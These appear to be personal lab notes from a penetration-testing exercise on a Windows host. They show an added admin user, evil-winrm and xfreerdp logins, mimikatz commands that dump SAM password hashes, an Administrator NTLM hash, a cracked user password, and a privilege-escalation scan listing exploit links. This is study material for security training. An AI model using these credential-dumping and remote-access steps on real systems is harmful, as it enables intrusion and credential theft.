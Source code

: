 From the enumeration we did on this target we know that ports 3389 and 5985 are open. This means that (using an account with the correct privileges) we should be able to obtain either a GUI through RDP (port 3389) or a stable CLI shell using WinRM (port 5985).

Adding new user and giving Admin privileges
![[Screenshot 2021-04-13 at 7.21.04 PM.png]]

Using evil-winrm for stable shell and as post exploitation

`evil-winrm -u sp00f -p "paSSword" -i 10.200.109.150`

![[Screenshot 2021-04-13 at 7.24.09 PM.png]]

using xfreerdp to get the hashes of the admin
`xfreerdp /v:10.200.109.150 /u:sp00f /p:paSSword /drive:/usr/share/windows-resources,share`


![[Screenshot 2021-04-13 at 7.58.27 PM.png]]
![[Screenshot 2021-04-13 at 7.58.47 PM.png]]

Running the mimikatz binary to get escalate the privileges as we still cant get the hashes
`\\tsclient\share\mimikatz\x64\mimikatz.exe`

Running
`privilege::debug`
`oken::elevate`

and `lsadump::sam` to get the dump
![[Screenshot 2021-04-13 at 8.02.03 PM.png]]


```
RID  : 000001f4 (500)                                                                                                   User : Administrator                                                                                                      Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1      
```

```
hash

thmomas 02d90eda8f6b6b06c32d5f207831101f 
passwd: i<3ruby
```

![[Screenshot 2021-04-13 at 8.57.08 PM.png]]


-----

### Using Powershell 

After getting the reverse shell back as the agents we will now use listeners

![[Screenshot 2021-04-30 at 6.52.45 PM.png]]

running Execute
```
Job started: C965SY



Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Not Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Not Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135
VulnStatus : Not Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.html
VulnStatus : Not Vulnerable
```

----

Using Evil-WinRM, let look for the directory of source control

`GitStack_2.3.10.exe`

![[Screenshot 2021-04-30 at 9.43.28 PM.png]]

git source control is in `C:\GitStack\repositories\Website.git`
![[Screenshot 2021-04-30 at 9.46.43 PM.png]]

downloading using `download Website.git`
